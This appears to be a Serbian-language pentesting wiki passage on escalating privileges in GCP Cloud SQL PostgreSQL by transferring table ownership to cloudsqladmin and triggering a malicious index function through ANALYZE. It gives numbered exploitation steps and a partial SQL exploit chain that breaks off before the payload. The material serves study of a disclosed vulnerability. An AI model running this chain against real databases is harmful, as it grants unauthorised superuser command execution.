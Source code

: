 ### **ALTER TABLE privesc**

U [**ovom objašnjenju**](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities) je objašnjeno kako je bilo moguće izvršiti **privesc** u Postgres GCP zloupotrebom privilegije ALTER TABLE koja je dodeljena korisniku.

Kada pokušate **dodeliti vlasništvo nad tabelom drugom korisniku**, trebalo bi da dobijete **grešku** koja to sprečava, ali očigledno je GCP dao tu **opciju korisniku postgres koji nije superkorisnik** u GCP-u:

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Povezujući ovu ideju sa činjenicom da kada se izvrše komande **INSERT/UPDATE/**[**ANALYZE**](https://www.postgresql.org/docs/13/sql-analyze.html) na **tabeli sa funkcijom indeksa**, **funkcija** se **poziva** kao deo komande sa **dozvolama vlasnika tabele**. Moguće je kreirati indeks sa funkcijom, dodeliti vlasničke dozvole **superkorisniku** nad tom tabelom, a zatim pokrenuti ANALYZE nad tabelom sa zlonamernom funkcijom koja će moći da izvršava komande jer koristi privilegije vlasnika.

```c
GetUserIdAndSecContext(&save_userid, &save_sec_context);
SetUserIdAndSecContext(onerel->rd_rel->relowner,
save_sec_context | SECURITY_RESTRICTED_OPERATION);
```

#### Eksploatacija

1. Počnite kreiranjem nove tabele.
2. Ubacite neki nebitan sadržaj u tabelu kako biste obezbedili podatke za funkciju indeksiranja.
3. Razvijte zlonamernu funkciju indeksiranja koja sadrži payload za izvršavanje koda, omogućavajući izvršavanje neovlašćenih komandi.
4. Izmijenite vlasnika tabele u "cloudsqladmin", što je uloga superkorisnika GCP-a ekskluzivno korišćena od strane Cloud SQL-a za upravljanje i održavanje baze podataka.
5. Izvršite ANALYZE operaciju na tabeli. Ova akcija nateruje PostgreSQL engine da pređe u korisnički kontekst vlasnika tabele, "cloudsqladmin". Kao rezultat, zlonamerna funkcija indeksiranja se poziva sa dozvolama "cloudsqladmin", omogućavajući izvršavanje prethodno neovlašćene shell komande.

U PostgreSQL-u, ovaj tok izgleda nešto ovako:

```sql
CREATE TABLE temp_table (data text);
CREATE TABLE shell_commands_results (data text);

INSERT INTO temp_table VALUES ('dummy content');

/* PostgreSQL does not allow creating a VOLATILE index function, so first we create IMMUTABLE index function */
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text
LANGUAGE sql IMMUTABLE AS 'select ''nothing'';';

CREATE INDEX index_malicious ON public.temp_table (suid_function(data));

ALTER TABLE temp_table OWNER TO cloudsqladmin;

/* Replace the function with VOLATILE index function to bypass the PostgreSQL restriction */
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text
```